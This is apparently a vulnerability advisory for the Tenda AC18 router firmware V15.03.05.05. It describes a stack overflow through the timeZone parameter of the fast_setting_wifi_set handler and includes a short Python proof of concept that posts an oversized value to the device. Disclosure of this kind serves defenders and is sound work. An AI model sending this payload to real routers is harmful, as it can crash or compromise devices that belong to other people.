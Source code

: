 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `form_fast_setting_wifi_set` function. The `v1` variable receives the `timeZone` parameter from a POST request and is later assigned to the `v16` variable. Then v16 is assigned to `nptr` and `v7` by `sscanf`. However, since the user can control the input of  `timeZone`, the statement `sprintf(v9, "%d", v21);` can cause a buffer overflow. The user-provided  `timeZone` can exceed the capacity of the `v9` array, triggering this security vulnerability.

![image-20240308203733864](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308203733864.png)

![image-20240308203708294](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240308203708294.png)

## POC

```python
import requests
ip = '192.168.84.101'
url = f'http://{ip}/goform/fast_setting_wifi_set'

payload = {
    # 'ssid': 'a' * 1000
    'timeZone': 'a' * 1000 + ":" + "aaa"
}

r = requests.post(url=url, data=payload)
print(r.content)
```

![image-20240305164305678](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305164305678.png)
